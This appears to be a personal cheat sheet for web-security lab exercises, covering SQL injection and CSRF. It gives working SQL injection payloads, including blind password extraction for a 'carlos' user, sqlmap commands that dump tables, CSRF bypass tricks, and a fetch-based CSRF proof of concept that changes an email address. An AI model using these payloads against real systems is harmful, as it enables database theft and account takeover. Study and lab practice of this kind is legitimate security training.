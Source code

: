 - 'foo' OR 1=1 —
- determine columns: UNION SELECT NULL(,NULL){0,}
- determine column with string: UNION SELECT '',NULL,NULL, UNION SELECT NULL,'',NULL, UNION SELECT NULL,NULL,'’
- CONCAT() or ||
- obtain password: ORDER (SELECT (CASE WHEN ((select substring(password, 1, 1) from users where username = 'carlos')='n') THEN 9975 ELSE 1/(SELECT 0) END))
    - You might need to get the password one character at a time with SUBSTRING()

### SQLMap (if identifying use level 5):

Identifying tables

`python3 sqlmap.py -u URL_WITH_PARAMS --tables -o`

Dumping tables

`python3 sqlmap.py -u URL_WITH_PARAMS -T TABLE_NAME --dump -o`

# CSRF

Tests:

- Change request method (done via Burp)
    - Consider adding &_method=POST to the URL if the standard method change does not work
- Delete CSRF parameter entirely
- Generate a CSRF token on your account, and use this in the CSRF attack (drop the request when generating)
- Generate a valid session and CSRF token on your account, and use this in the CSRF attack. Inject CSRF token via a reflected cookie in Search function
- Delete Referer header
    - `<meta name="referrer" content="no-referrer">`****
- Referer header to contain the expected domain, but can also include other domains.

Misc tests/points:

- CSRF token validation may not be performed if the request is not a POST method.
- Session and CSRF token may not be linked, allowing one user's CSRF token to be used for an attack against another user.
- If there is no CSRF token, the validation may not be performed at all.
- If there is a vulnerability that allows cookies to be set arbitrarily, the CSRF token may be associated with a cookie other than the session cookie.
- Validation can be bypassed if the CSRF token and cookie have the same value.
- If the application performs validation based on the referrer, it may only validate if the referrer is present.
- The <meta name="referrer" content="never"> tag can be used to prevent referrer from being included.
- If referrer validation is insufficient, Referrer-Policy: unsafe-url can be returned to add a query to the referrer.
- The history.pushState("", "", "/?your-lab-id.web-security-academy.net") method can be used to add arbitrary strings to the referrer.
- Burp Repeater -> Engagement tool -> CSRF PoC Generator can be used to generate CSRF PoC.

```
<script>
fetch(
  'LAB/my-account/change-email',
  {
    method: 'POST',
    mode:'no-cors',
    body:'email=a@a',
    credentials: 'include'
  }
);
</script>
```
